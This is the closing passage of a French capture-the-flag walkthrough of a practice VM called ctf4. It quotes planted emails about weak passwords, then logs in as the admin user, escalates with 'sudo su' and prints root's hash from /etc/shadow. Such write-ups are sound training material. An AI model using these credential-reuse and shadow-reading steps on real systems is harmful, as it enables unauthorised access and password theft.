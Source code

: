 ```plain

  the server is up and running now and should be able to support most of
our needs.  Don and I are still working on installing a few more patches
and configuring things.  Let us know if you have any problems.  Thanks!

-- 
Don Stevens
Sr. Unix Admin
Prof. Ehks Data Research Center

==================================================

Subject: Re: Hey Sally
From: "Sally Orzek" <sorzek@ctf4.sas.upenn.edu>
To: ghighland@ctf4.sas.upenn.edu

Hi Greg,

  yeah, they gave me that talk as well.  I just changed my password to
something like "password1234" and then changed it back to the one I
wanted after that :)  You can probably just use a number though - might
be easier to remember and keep you out of trouble.

-- 
Sally Orzek
Ehks Data Research

> Hey Sally,
>
>   so the server is all set up now, and I wanted to ask you about the whole
> password thing.  I know they said to use a number as well, so I couldn't
> use my regular password of "undone".  Do you think I can just tack a
> number on the end of it or will Don and Andy freak out on me?
>
> --
> Greg Highland
> Prof. Ehks Data Research Center
>
```

Ah ces utilisateurs... si naïfs.  

*Don Stevens* semble être l'administrateur de la machine. Connectons-nous avec ses identifiants.  

Le coup de grace
----------------

Dans son *.bash\_history* on trouve des appels à *su* et *sudo*. On s’aperçoit vite que ce dernier est effectivement administrateur :  

```plain
[dstevens@ctf4 ~]$ sudo -l
Password:
User dstevens may run the following commands on this host:
    (ALL) ALL
[dstevens@ctf4 ~]$ sudo su
[root@ctf4 dstevens]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel) context=user_u:system_r:unconfined_t:SystemLow-SystemHigh
[root@ctf4 ~]# head -1 /etc/shadow
root:$1$DSHH/MlC$DH8ClhHKeagYW4PwxICZC0:14309:0:99999:7:::
```
